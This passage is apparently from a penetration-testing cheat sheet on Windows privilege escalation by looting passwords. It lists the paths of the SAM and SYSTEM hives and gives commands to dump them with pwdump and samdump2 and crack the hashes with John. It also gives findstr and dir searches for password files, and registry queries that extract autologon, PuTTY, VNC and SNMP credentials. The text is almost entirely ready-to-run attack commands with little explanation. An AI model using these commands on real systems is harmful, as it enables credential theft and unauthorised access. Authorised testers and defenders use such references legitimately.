 ## EoP - Looting for passwords

### SAM and SYSTEM files

The Security Account Manager (SAM), often Security Accounts Manager, is a database file. The user passwords are stored in a hashed format in a registry hive either as a LM hash or as a NTLM hash. This file can be found in %SystemRoot%/system32/config/SAM and is mounted on HKLM/SAM.

```powershell
# Usually %SYSTEMROOT% = C:\Windows
%SYSTEMROOT%\repair\SAM
%SYSTEMROOT%\System32\config\RegBack\SAM
%SYSTEMROOT%\System32\config\SAM
%SYSTEMROOT%\repair\system
%SYSTEMROOT%\System32\config\SYSTEM
%SYSTEMROOT%\System32\config\RegBack\system
```

Generate a hash file for John using `pwdump` or `samdump2`.

```powershell
pwdump SYSTEM SAM > /root/sam.txt
samdump2 SYSTEM SAM -o sam.txt
```

Then crack it with `john -format=NT /root/sam.txt`.

### Search for file contents

```powershell
cd C:\ & findstr /SI /M "password" *.xml *.ini *.txt
findstr /si password *.xml *.ini *.txt *.config
findstr /spin "password" *.*
```

### Search for a file with a certain filename

```powershell
dir /S /B *pass*.txt == *pass*.xml == *pass*.ini == *cred* == *vnc* == *.config*
where /R C:\ user.txt
where /R C:\ *.ini
```

### Search the registry for key names and passwords

```powershell
REG QUERY HKLM /F "password" /t REG_SZ /S /K
REG QUERY HKCU /F "password" /t REG_SZ /S /K

reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" # Windows Autologin
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" 2>nul | findstr "DefaultUserName DefaultDomainName DefaultPassword" 
reg query "HKLM\SYSTEM\Current\ControlSet\Services\SNMP" # SNMP parameters
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions" # Putty clear text proxy credentials
reg query "HKCU\Software\ORL\WinVNC3\Password" # VNC credentials
reg query HKEY_LOCAL_MACHINE\SOFTWARE\RealVNC\WinVNC4 /v password

reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
```

